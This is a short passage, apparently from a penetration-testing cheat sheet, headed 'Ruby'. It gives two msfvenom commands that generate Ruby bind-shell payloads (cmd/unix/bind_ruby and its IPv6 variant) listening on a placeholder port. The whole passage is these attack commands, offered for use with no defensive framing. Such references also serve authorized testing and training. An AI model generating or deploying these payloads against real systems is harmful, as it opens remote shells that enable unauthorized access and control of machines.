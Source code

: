 # Ruby

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_ruby lport=<PORT>

$ msfvenom -p cmd/unix/bind_ruby_ipv6 lport=<PORT>
```